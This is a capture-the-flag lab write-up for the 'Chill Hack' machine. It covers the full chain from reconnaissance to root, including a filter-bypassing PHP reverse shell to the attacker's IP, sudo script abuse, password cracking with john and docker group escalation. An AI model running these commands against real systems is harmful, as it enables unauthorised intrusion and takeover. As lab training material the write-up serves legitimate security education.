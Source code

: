 # Chill Hack
Easy level CTF.

### User flag

Running a nmap scan to see how many ports are open
```
nmap -sC -sV <ip>
```

We have found 3 open ports:
```
21/tcp open  ftp
|  ftp-anon: Anonymous FTP login allowed
22/tcp open  ssh
80/tcp open  http
```
We can see that the FTP server allows anonymous login.


Logging in to the FTP server as "anonymous" with no password:
```
ftp <ip>
```

Checking what's on the server
```
ls -a
```

We see there is a file named note.txt
We download the file using the get command
```
get note.txt
```

We then read the file 

```
cat note.txt
```
"Anurodh told me that there is some filtering on strings being put in the command -- Apaar"


Now we run gobuster to look for secret directories, using one of the wordlists that come with Kali
```
gobuster dir -u <ip> -w usr/share/wordlists/dirb/common.txt -x "txt,html,php"
```
```
/fonts                (Status: 301)
/images               (Status: 301) 
/index.html           (Status: 200) 
/index.html           (Status: 200) 
/js                   (Status: 301) 
/news.html            (Status: 200) 
/secret               (Status: 301) 
/server-status        (Status: 403)
/team.html            (Status: 200)

```
We check out the /secret page and find whats seems like a way to execute commands

We test it out by trying to list the current directory with ls and are met with  " Are you a hacker ? " and ALERT CONDITION: RED
We can assume that this is what the note.txt file was talking about, the commands are being filtered.

Now we test out which commands we can run.

```
whoami
```
gives us "www-data"

We figure out that there are ways to bypass the filter, like adding backslashes or quotation marks to your commands
https://book.hacktricks.xyz/linux-hardening/bypass-bash-restrictions#bypass-paths-and-forbidden-words

Knowing this, we want to start a netcat listener and try to get a reverse shell
```
nc -lvnp <port>
```
I got a reverse shell from:
https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet

Adding backslashes we have:
```
p\hp -r '$sock=fsockopen("your-vpn-ip",1234);exec("/bin/sh -i <&3 >&3 2>&3");'
```
Now we have a shell as www-data, we use sudo -l to list files that can be run as other users.
We see that we can run .helpline.sh as Apaar
```
cat /home/apaar/.helpline.sh 
```
#!/bin/bash

echo
echo "Welcome to helpdesk. Feel free to talk to anyone at any time!"
echo

read -p "Enter the person whom you want to talk with: " person

read -p "Hello user! I am $person,  Please enter your message: " msg

$msg 2>/dev/null

echo "Thank you for your precious time!"

sudo -u apaar /home/apaar/.helpline.sh

Type anything for the first message and for the second message type:

/bin/sh


To get a stable shell
python3 -c 'import pty;pty.spawn("/bin/bash")'

We find the user flag in Apaar's home folder in a file called local.txt

### Root flag
Looking arouund in the files, we found credentials for mysql in the file /var/www/files/index.php

We connect to the mysql service, with the password we just found
```
mysql -u root -p
```

Using these commands we get Anurodh and Apaar's passwords (hashed)
SHOW DATABASES;
USE webportal
SHOW TABLES;
SELECT * FROM users;

We set up a python web server
python3 -m http.server 8888

Now we can see the image at 10.10.221.98:8888/hacker-with-laptop_23-2147985341.jpg
And download it with
wget 10.10.221.98:8888/hacker-with-laptop_23-2147985341.jpg 

steghide --extract -sf home/kali/Downloads/hacker-with-laptop_23-2147985341.jpg
Inside the image is a zipfile with a php file
The zip file is password protected

sudo /usr/sbin/zip2john backup.zip > home/kali/Downloads/backup.hash

sudo john home/kali/Downloads/backup.hash --wordlist=usr/share/wordlists/rockyou.txt 

 sudo unzip -P pass1word backup.zip

 Inside the php file there is a base64 encoded password and a possible username
We decode the password and try to log in as anurodh
ssh anurodh@10.10.143.136
It works!

We run 'id' and see he is in the docker group
https://gtfobins.github.io/gtfobins/docker/#shell

docker run -v /:/mnt --rm -it alpine chroot /mnt sh

We now have root access and can find the root flag in the proof.txt file

